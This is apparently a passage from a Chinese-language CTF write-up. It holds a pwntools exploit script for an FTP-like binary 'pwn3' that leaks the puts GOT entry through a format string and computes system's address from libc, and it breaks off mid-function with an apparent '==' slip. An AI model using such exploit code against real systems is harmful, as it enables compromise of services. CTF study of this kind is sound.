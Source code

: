 然后开始编写exp:
​    

```
#!/usr/bin/env python
from pwn import *

# context.log_level = 'debug'

```

​    

```
elf = ELF('pwn3')
libc = ELF('./libc.so')

pr = process('./pwn3') 
# pr = remote('120.27.155.82', 9000)

username = "rxraclhm"

pr.recvuntil("Name (ftp.hacker.server:Rainism):")
pr.sendline(username)

# 1 -> get
# 2 -> put
# 3 -> dir
# other -> exit

def put(pr, name, content):
	pr.recvuntil("ftp>")
	pr.sendline('put') 
	pr.recvuntil("upload:")
	pr.sendline(name)
	pr.recvuntil("content:")
	pr.sendline(content)

def get(pr, name, num):
	pr.recvuntil("ftp>")
	pr.sendline('get')
	pr.recvuntil('get:')
	pr.sendline(name)
	return pr.recvn(num)

def dir(pr):
	pr.recvuntil("ftp>")
	pr.sendline('dir')

plt_puts = elf.symbols['puts']
print 'plt_puts= ' + hex(plt_puts)
got_puts = elf.got['puts']
print 'got_puts= ' + hex(got_puts)

# /bin/sh
put(pr, '/sh', '%8$s' + p32(got_puts))
text = get(pr, '/sh', 4)
puts_addr = u32(text)
print 'puts_addr= ' + hex(puts_addr)
system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)

def foo(name, address, num):
	num = num & 0xff
	if num == 0 : num == 0x100
```